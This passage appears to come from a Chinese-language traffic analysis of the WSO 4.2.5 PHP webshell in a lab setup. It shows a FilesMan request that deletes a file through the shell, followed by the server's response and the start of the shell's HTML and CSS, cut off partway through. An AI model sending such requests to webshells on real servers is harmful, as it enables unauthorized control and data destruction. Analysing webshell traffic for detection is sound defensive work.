 	f%5B%5D=yaofeitest.md&ne=&a=FilesMan&c=%2Fvar%2Fwww%2Fhtml%2Fwebshell-master%2Fphp%2Fwso%2F&charset=UTF-8&p1=delete

**响应数据包**
<br>

	HTTP/1.1 200 OK
	Date: Fri, 04 Nov 2016 05:45:53 GMT
	Server: Apache/2.4.7 (Ubuntu)
	X-Powered-By: PHP/5.5.9-1ubuntu4.19
	Vary: Accept-Encoding
	Content-Encoding: gzip
	Content-Length: 3622
	Keep-Alive: timeout=5, max=100
	Connection: Keep-Alive
	Content-Type: text/html

	<html><head><meta http-equiv='Content-Type' content='text/html; charset=UTF-8'><title>192.168.182.143 - WSO 4.2.5</title>
	<style>
		body {background-color:#060A10; color:#e1e1e1; margin:0; font:normal 75% Arial, Helvetica, sans-serif; } canvas{ display: block; vertical-align: bottom;}
		#particles-js{width: 100%; height: 100px; background-color: #060a10; background-image: url(''); background-repeat: no-repeat; background-size: cover; background-position: 50% 50%;}
		body,td,th	{font:10pt tahoma,arial,verdana,sans-serif,Lucida Sans;margin:0;vertical-align:top;}
		table.info	{color:#C3C3C3;}
		table#toolsTbl {background-color: #060A10;}
		span,h1,a	{color:#fff !important;}
		span		{font-weight:bolder;}
		h1			{border-left:5px solid #2E6E9C;padding:2px 5px;font:14pt Verdana;background-color:#10151c;margin:0px;}
		div.content	{padding:5px;margin-left:5px;background-color:#060a10;}
		a			{text-decoration:none;}
		a:hover		{text-decoration:underline;}
		.tooltip::after {background:#0663D5;color:#FFF;content: attr(data-tooltip);margin-top:-50px;display:block;padding:6px 10px;position:absolute;visibility:hidden;}
		.tooltip:hover::after {opacity:1;visibility:visible;}
		.ml1		{border:1px solid #202832;padding:5px;margin:0;overflow:auto;}
		.bigarea	{min-width:100%;max-width:100%;height:400px;}
		input, textarea, select	{margin:0;color:#fff;background-color:#202832;border:none;font:9pt Courier New;outline:none;}
		label {position:relative}
		label:after {content:'<>';font:10px 'Consolas', monospace;color:#fff;-webkit-transform:rotate(90deg);-moz-transform:rotate(90deg);-ms-transform:rotate(90deg);transform:rotate(90deg);right:3px; top:3px;padding:0;position:absolute;pointer-events:none;}
		label:before {content:'';right:0; top:0;width:17px; height:17px;background:#202832;position:absolute;pointer-events:none;display:block;}
		form		{margin:0px;}
		#toolsTbl	{text-align:center;}
		#fak 		{background:none;}
		#fak td 	{padding:5px 0 0 0;}
		iframe		{border:1px solid #060a10;}
		.toolsInp	{width:300px}
		.main th	{text-align:left;background-color:#060a10;}
		.main tr:hover{background-color:#354252;}
		.main td, th{vertical-align:middle;}
		input[type='submit']{background-color:#2E6E9C;}
		input[type='button']{background-color:#2E6E9C;}
		input[type='submit']:hover{background-color:#56AD15;}
		input[type='button']:hover{background-color:#56AD15;}
		.l1			{background-color:#202832;}
		pre			{font:9pt Courier New;}
	</style>
	<script>
	    var c_ = '/var/www/html/webshell-master/php/wso/';